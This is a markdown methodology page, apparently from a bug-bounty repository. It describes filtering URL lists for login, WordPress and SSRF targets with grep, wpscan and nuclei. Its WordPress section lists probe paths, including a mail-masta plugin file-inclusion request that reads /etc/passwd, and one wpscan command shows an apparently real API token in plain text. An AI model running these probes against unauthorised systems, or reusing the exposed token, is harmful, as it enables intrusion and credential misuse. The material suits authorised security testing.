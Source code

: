 # 🌍 Clean URLs Testing

This document details **manual and automated testing** on filtered URLs from `clean_urls.txt`, including **authentication, WordPress security, and SSRF testing.**

---

## **1️⃣ Authentication Testing**
Identifying and testing login, signup, reset, and verification endpoints.

### **Extract Authentication Pages**
```bash
cat clean_urls.txt | grep -Ei "/(login|signin|auth|register|signup|reset|forgot|verify|session|password|create-account|recover|password-reset|2fa|otp|verify|xml|upload|data|api/signup|api/login|api/2fa)" > auth_pages.txt
```
✅ **Filters authentication-related pages for further testing.**

#### **Testing Authentication Security**
Refer to:
- **[Register & Signup](register_testing.md)**
- **[Login & Auth](login_testing.md)**
- **[Reset & Forgot Password](reset_testing.md)**
- **[2FA & OTP](2fa_testing.md)**
- **[API & XML Testing](api_xml_testing.md)**

---

## **2️⃣ WordPress Security Testing**
Identifying and analyzing WordPress-based URLs for vulnerabilities.

### **Extract WordPress-Specific URLs**
```bash
cat clean_urls.txt | grep -E "wp-content|wp-admin|wp-includes|xmlrpc.php|wp-login.php|wp-json" > wordpress_urls.txt
```
✅ **Filters WordPress endpoints for security analysis.**

### **Scan WordPress Installations for Vulnerabilities**
```bash
wpscan --url https://target.com --disable-tls-checks --api-token API_KEY -e ap --plugins-detection aggressive
wpscan --url https://target.com --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
wordpress usernames exposure :
/wp-json/wp/v2/users
/author-sitemap.xml
/wp-content/debug.log
/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
	
/wp-login.php?action=register
/wp-json/?rest_route=/wp/v2/users/
/wp-json/?rest_route=/wp/v2/users/n
```
✅ **Checks for exposed WordPress users, plugins, and security misconfigurations.**

---

## **3️⃣ SSRF & Open Redirect Testing**
Identifying URLs that may be vulnerable to **Server-Side Request Forgery (SSRF)** and **Open Redirect attacks.**

### **Extract Open Redirect & SSRF Candidates**
```bash
cat clean_urls.txt | grep -Ei "url=|uri=|redirect=|link=|file=|page=|to=|u=|forward=|next=" > ssrfopenredirect_candidates.txt
```
✅ **Finds potential SSRF and open redirect parameters.**

### **Automated SSRF & Open Redirect Testing**
```bash
cat ssrfopenredirect_candidates.txt | xargs -I {} nuclei -t nuclei-templates/http/ssrf.yaml -u "{}"
```
✅ **Runs SSRF-specific `nuclei` templates against extracted candidates.**

---

### **🚀 Now, clean URLs are fully processed and ready for authentication, WordPress, and SSRF testing!**

